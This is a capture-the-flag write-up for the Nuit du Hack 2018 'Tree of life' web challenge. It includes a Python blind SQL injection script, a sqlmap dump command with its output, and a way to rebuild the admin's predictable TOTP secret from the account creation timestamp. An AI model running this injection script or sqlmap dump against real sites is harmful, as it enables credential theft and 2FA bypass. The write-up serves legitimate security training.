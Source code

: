 # Tree of life

"Tree of life" was a 300-point challenge at **Nuit du Hack 2018**, that I flagged with [Geluchat](https://twitter.com/Geluchat). It was quite original, and thus quite fun to solve. This writeup comes quite late as I needed to access the challenge website again to write something proper; thanks a lot [sybix](https://twitter.com/4sybix2) for putting it online again! It is our last writeup related to NDH16 (*finally!*).

## Challenge description

```
Access the admin's secret page on https://treeoflife.wargame.rocks
```

> Note: for this writeup, we are not working on the original domain used at la Nuit du Hack, but on https://treeoflife.hzv-ep.sybix.fr.

## Discovery

We are greeted by the following page:

![Greetings](images/greetings.png)

Let's start by following the steps outlined here.

Once we finish **step 2**, we need to scan a QR Code to activate 2FA (*as usual*):

![2FA activation](images/2fa.png)

Decoding the QR Code, we can see it has the following value:

```
otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TGMJSGQ3DQMRS&amp;issuer=treeoflife.hzv-ep.sybix.fr
```

We notice that `secret` looks like a base32-encoded string (*that was training for* [Fleet](https://inshallhack.org/cancer_ndh16/)). Let's try to decode it:

```bash
~$ echo -n "GE2TGMJSGQ3DQMRS" | base32 -d
1531246822
```

This could be a random integer, but it definitely looks like a Unix time stamp. Using [unixtimestamp](https://www.unixtimestamp.com/index.php), we can see that it corresponds to **07/10/2018 @ 7:03pm (UTC)**; that's about the time we created our account on the platform (*for this writeup, anyway :-)*).

To make sure we're not making too many assumptions here, we try the first three steps again with a new account. I'll skip the details here, but it convinces us that we're on the right path.

Now that 2FA is set up for our account, we log out and log in once more, and try to access the **secret page**… That tells us the following:

![lolnope](images/fucku.png)

Drat. Welp, what else can we do then? There's one page we haven't visited yet, the **search page**. After playing around with it a little bit, we figure out that it's vulnerable to **blind SQL injection**.

## Exploiting the SQLi

We craft the following script to extract the admin password:

```python
# -*- coding: utf8 -*-
import requests

cookies        = {'sessionid': 'xxxxxxxxxxxxxxxxxxxxxxxx'}
url_prefix     = "https://treeoflife.wargame.rocks/users/search/?username="
payload_prefix = "userwhodoesntexist' or (id = 1 and substr((select password), "
possible_chars = [chr(c) for c in range(32, 127)]
password       = ""


while True:
  for char in possible_chars:

    payload = url_prefix + payload_prefix + str(len(password) + 1) + ", 1) = '"
    payload += char + "') or '1' = '2"

    result = requests.get(payload, cookies=cookies).text

	# John is the name of the admin account, which we can see on the search page
    if 'John' in result:
      password += char
      print password
      break
  else:
    break

print(password)
```

This outputs what seems to be a hash: **393F0376EE939FD25B0999D62AD7EA7E**. By googling it, we figure out that it is the MD5 hash of **"igothacked"**. With this, we're able to log in as the admin!

![But that's not enough](images/but.png)

But unfortunately, we're still not able to read the flag: we need 2FA!

## Stealing the admin's TOTP secret key

During the discovery, we deduced that the **TOTP secret** used to generate the 2FA tokens was the **Unix time stamp of the joining date of the user**. Therefore, all that's left is to dump the admin's joining date on the website.

To be completely honest, we were not feeling up to the task at la Nuit du Hack (*it was, after all, 4 am*), so we resorted to `sqlmap` to get this piece of information:

```bash
# Totally not overkill command
~$ python sqlmap.py -u "https://treeoflife.wargame.rocks/users/search/?username=" --dump --risk 3 --level 3  --threads=10
...
[04:49:26] [INFO] retrieved: "2018-06-07 15:08:20.680000","","John","1","1","...
...
```

Gotcha! Converting **2018-06-07 15:08:20.680000** to a Unix time stamp, we get: **1528384100**, which is **GE2TEOBTHA2DCMBQ** once base32-encoded.

We use this to generate a QR Code containing the following link: `otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TEOBTHA2DCMBQ&amp;issuer=treeoflife.hzv-ep.sybix.fr`:

![Admin 2FA QR Code](images/frame.png)

We scan it using **Google Authenticator**, input the token it generates on the **secret** page and…

![Flag](images/flag.png)

**Flagged!**


**Flag: ndh16_dc68a06c0034e6974b39a96d69f1e184f3d28982**

## Wrapping up

This challenge was pretty fun, it's not often that we get to play with 2FA tokens. On a personal note, I'm glad to be **finally** done with my Nuit du Hack writeups. I expected to publish some writeups for Akerva's challenge as well, but they posted the whole solution on their website.

If I'm being perfectly honest, this writeup was quite lazy, but I hope you enjoyed the read anyway!
